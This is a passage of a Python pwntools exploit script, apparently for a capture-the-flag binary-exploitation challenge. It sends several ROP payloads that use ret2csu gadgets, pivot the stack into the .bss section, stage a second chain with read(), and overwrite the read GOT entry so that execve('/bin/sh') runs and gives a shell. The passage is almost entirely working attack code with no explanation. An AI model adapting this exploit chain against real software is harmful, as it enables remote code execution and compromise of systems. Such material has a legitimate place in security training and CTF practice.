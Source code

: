 ```python
buf += p64(0x3b) #r14 => RDX
buf += p64(fini_ptr) #r15
buf += p64(ret2csu_gdg) #
buf += p64(0xcafebabe) # dummy add rsp + 0x8
buf += p64(0) #rbx
buf += p64(1) #rbp
buf += p64(0) #r12
buf += p64(0) #r13 
buf += p64(0) #r14 
buf += p64(0) #r15
buf += p64(elf.sym.read) #syscall write()
buf += p64(poprbp)
buf += p64(rw_section+0x100) #second ROP chain
buf += p64(leaveret) #pivot
sleep(1)
r.sendline(buf)
#payload 2 in .bss
payload = b"A"*0x48
#calling read() to write the 2nd ROP chain on the.bss section
payload += p64(poprdi)
payload += p64(0)
payload += p64(poprsi)
payload += p64(rw_section+0x100)
payload += p64(0xcafebabe)
payload += p64(elf.sym.read)
payload += p64(elf.sym.vuln)
sleep(1)
r.sendline(payload)
#payload 2 on .bss
buf = b"YYYYYYYY" #padding
#ret2csu
buf += p64(pops)
buf += p64(0) #rbx
buf += p64(1) #rbp
buf += p64(rw_section) #r12 -> RDI /bin/sh
buf += p64(0) #r13 = > rsi 0
buf += p64(0) #r14 => RDX
buf += p64(fini_ptr) #r15
buf += p64(ret2csu_gdg) #
buf += p64(0xcafebabe) # dummy add rsp + 0x8
buf += p64(0) #rbx
buf += p64(1) #rbp
buf += p64(0) #r12
buf += p64(0) #r13 
buf += p64(0) #r14 
buf += p64(0) #r15
buf += p64(elf.sym.read) #syscall execve()
buf += p64(0xdeadbeef)
sleep(1)
r.sendline(buf)
#3
payload = b"A"*0x48
payload += p64(poprdi)
payload += p64(0)
payload += p64(poprsi)
payload += p64(elf.got.read)
payload += p64(0xcafebabe)
payload += p64(elf.sym.read)
payload += p64(0x401109) #pop rbp
payload += p64(rw_section)
payload += p64(leaveret) #pivot
sleep(1)
r.sendline(payload)
```